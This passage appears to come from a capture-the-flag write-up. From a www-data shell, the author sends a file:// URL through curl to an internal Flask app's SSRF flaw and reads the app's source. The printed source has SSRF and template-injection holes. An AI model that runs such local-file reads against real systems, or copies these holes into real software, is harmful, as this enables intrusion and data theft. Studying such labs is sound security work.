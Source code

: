 Now, with `/home/hansolo/app/app.py` we can read the application’s source code.

```console
www-data@124a042cc76c:/var/www/html$ curl -s -d 'website_url=file:///home/hansolo/app/app.py' http://172.18.0.1:5000/
```
{: .wrap }

```py
from flask import Flask, render_template, render_template_string, request
import pycurl
from io import BytesIO

app = Flask(__name__)

@app.route('/', methods=['GET', 'POST'])
def display_website():
    if request.method == 'POST':
        website_url = request.form['website_url']

        # Use pycurl to fetch the content of the website
        buffer = BytesIO()
        c = pycurl.Curl()
        c.setopt(c.URL, website_url)
        c.setopt(c.WRITEDATA, buffer)
        c.perform()
        c.close()

        # Extract the content and convert it to a string
        content = buffer.getvalue().decode('utf-8')
        buffer.close()
        website_content = '''
        <!DOCTYPE html>
<html>
<head>
    <title>Website Display</title>
</head>
<body>
    <h1>Fetch Website Content</h1>
    <h2>Currently in Development</h2>
    <form method="POST">
        <label for="website_url">Enter Website URL:</label>
        <input type="text" name="website_url" id="website_url" required>
        <button type="submit">Fetch Website</button>
    </form>
    <div>
        %s
    </div>
</body>
</html>'''%content

        return render_template_string(website_content)

    return render_template('index.html')

if __name__ == '__main__':
    app.run(host="0.0.0.0",debug=False)
```
{: file="/home/hansolo/app/app.py" }
